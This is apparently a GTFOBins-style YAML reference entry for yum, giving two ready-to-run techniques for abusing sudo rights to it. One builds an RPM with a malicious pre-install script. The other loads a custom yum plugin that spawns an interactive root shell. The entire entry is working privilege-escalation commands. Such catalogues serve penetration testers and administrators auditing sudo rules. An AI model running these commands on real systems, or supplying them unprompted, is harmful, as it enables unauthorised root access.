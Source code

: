 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo yum localinstall -y x-1.0-1.noarch.rpm
    - description: |
        Spawn interactive root shell by loading a custom plugin.
      code: |
        TF=$(mktemp -d)
        cat >$TF/x<<EOF
        [main]
        plugins=1
        pluginpath=$TF
        pluginconfpath=$TF
        EOF

        cat >$TF/y.conf<<EOF
        [main]
        enabled=1
        EOF

        cat >$TF/y.py<<EOF
        import os
        import yum
        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
        requires_api_version='2.1'
        def init_hook(conduit):
          os.execl('/bin/sh','/bin/sh')
        EOF

        sudo yum -c $TF/x --enableplugin=y
---
```

